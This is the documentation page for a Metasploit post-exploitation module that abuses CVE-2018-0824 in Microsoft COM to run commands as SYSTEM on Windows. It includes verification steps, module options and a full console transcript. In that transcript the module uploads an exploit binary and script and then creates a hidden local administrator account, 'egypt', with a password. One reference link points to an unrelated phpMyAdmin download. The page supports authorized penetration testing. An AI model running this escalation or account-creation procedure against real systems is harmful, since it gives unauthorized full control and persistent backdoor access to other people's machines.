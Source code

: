## Vulnerable Application

This is a post exploitation module for local privilege escalation bug
which exists in Microsoft COM for windows when it fails to properly
handle serialized objects.

* https://www.phpmyadmin.net/downloads/
* https://github.com/codewhitesec/UnmarshalPwn/
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-0824

### Limitations

The payload will not spawn ant independent session it simply creates process with the system privilege.
If the system is not vulnerable, then payload will execute but new process will not spawn.

## Verification Steps

If you want to confirm the vulnerability before you add user or perform any other sensitive action.

1. `set COMMAND /s notepad.exe`
2. `run`

Confirmation:

Then go to meterpreter session and confirm running process (ps)
If you see notepad.exe running as SYSTEM then that is as indication of vulnerable system.

## Options

### COMMAND

This command will be executed on successful escalation.</br>

## Scenarios

### Windows 10 (Build 15063)

```
meterpreter > sysinfo
Computer        : WIN10X64-1703
OS              : Windows 10 (Build 15063).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > execute -f cmd.exe -i -H
Process 4868 created.
Channel 7 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\msfuser\Downloads>net user
net user

User accounts for \\WIN10X64-1703

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
msfuser                  
The command completed successfully.


C:\Users\msfuser\Downloads>exit           
exit
meterpreter > background
[*] Backgrounding session 1...
msf5 post(windows/escalate/unmarshal_cmd_exec) > show options

Module options (post/windows/escalate/unmarshal_cmd_exec):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   COMMAND                        no        The command to execute as SYSTEM (Can only be a cmd.exe builtin or Windows binary, (net user /add %RAND% %RAND% & net localgroup administrators /add <user>).
   EXPLOIT_NAME                   no        The filename to use for the exploit binary (%RAND% by default).
   PATH                           no        Path to write binaries (%TEMP% by default).
   SCRIPT_NAME                    no        The filename to use for the COM script file (%RAND% by default).
   SESSION                        yes       The session to run this module on.

msf5 post(windows/escalate/unmarshal_cmd_exec) > set command 'net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt'
command => net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
msf5 post(windows/escalate/unmarshal_cmd_exec) > set verbose true
verbose => true
msf5 post(windows/escalate/unmarshal_cmd_exec) > run

[!] SESSION may not be compatible with this module.
[*] Attempting to PrivEsc on WIN10X64-1703 via session ID: 1
[*] exploit path is: C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] script path is: C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] command is: net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
[*] Attempting to PrivEsc on WIN10X64-1703 via session ID: 1
[*] Uploading Script to C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] Creating the sct file with command net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
[*] script_template_data.length =  306
[*] Writing 376 bytes to C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct to target
[*] Script uploaded successfully
[*] Uploading Exploit to C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] Exploit uploaded on WIN10X64-1703 to C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] Launching Exploit...
[*] Query for IStorage
Call:  Stat
End:  Stat
Query for IMarshal
Call:  GetMarshalSizeMax
Unknown IID: {ECC8691B-C1DB-4DC0-855E-65F6C551AF49} 0000017F6C3E05B0
Query for IMarshal
Call:  GetUnmarshalClass
Call:  GetMarshalSizeMax
Call:  MarshalInterface
[+] Exploit Completed
[*] C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] Post module execution completed
msf5 post(windows/escalate/unmarshal_cmd_exec) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > execute -f cmd.exe -i -H
Process 1780 created.
Channel 11 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\msfuser\Downloads>net user 
net user

User accounts for \\WIN10X64-1703

-------------------------------------------------------------------------------
Administrator            DefaultAccount           egypt                    
Guest                    msfuser                  
The command completed successfully.


C:\Users\msfuser\Downloads>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
egypt
msfuser
The command completed successfully.


C:\Users\msfuser\Downloads>

```

